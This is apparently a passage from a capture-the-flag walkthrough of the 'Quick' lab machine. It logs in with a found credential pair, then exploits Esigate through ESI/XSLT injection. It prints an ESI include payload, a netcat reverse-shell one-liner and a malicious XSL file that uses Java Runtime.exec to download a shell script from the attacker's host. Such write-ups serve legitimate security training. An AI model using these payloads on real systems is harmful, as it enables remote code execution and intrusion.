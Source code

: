 We can try the emails/password we grabbed on quick.htb/login.php, but none of them work. Taking a look at the clients on the homepage, we can make a list of possible emails that could be related to the companies that reviewed "Quick".

The following credentials work:

**elisa@wink.co.uk:Quick4cc3$$**

Now that we're in, we see that we can Raise a Ticket, and search for raised tickets. Normal XSS doesn't appear to do anything, but if we look at the headers in the response, we see the following:

```
X-Powered-By: Esigate
```

Remember that we noticed the server was running Esigate before? Esigate has an XSLT injection vulnerability that we can exploit here. For this purpose, I'll be using the following cheatsheet:

https://github.com/0xVIC/CheatSheets/blob/master/Cross-site%20scripting/ESI_Engine_XSS.md

Click "Raise a Ticket" and enter the following payload in the body, replacing the x's with our IP:

```
<esi:include src="http://xx.xx.xx.xx/image.png" />
```

Now, we take note of the ticket number it returns to us after hitting submit, we open a webserver on port 80 of our local machine, and we search for the ticket. We can see the following on our local webserver:

```
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.186 - - [28/Apr/2020 11:03:27] code 404, message File not found
10.10.10.186 - - [28/Apr/2020 11:03:27] "GET /image.png HTTP/1.1" 404 -
```

Looking for possible RCE for Esigate leads us to the following link:

https://www.gosecure.net/blog/2019/05/02/esi-injection-part-2-abusing-specific-implementations/

We can use the payloads in this link to achieve RCE! We'll need to make ourselves a reverse shell first:

shell.sh:
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.xx.xx 4444 >/tmp/f
```

Now we can set up our malicious xsl's:

exploitdown.xsl:

```
<?xml version="1.0" ?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
<xsl:output method="xml" omit-xml-declaration="yes"/>
<xsl:template match="/"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime">
<root>
<xsl:variable name="cmd"><![CDATA[wget http://10.10.xx.xx/shell.sh -O /tmp/shell.sh]]></xsl:variable>
<xsl:variable name="rtObj" select="rt:getRuntime()"/>
<xsl:variable name="process" select="rt:exec($rtObj, $cmd)"/>
Process: <xsl:value-of select="$process"/>
Command: <xsl:value-of select="$cmd"/>
</root>
</xsl:template>
</xsl:stylesheet>
```
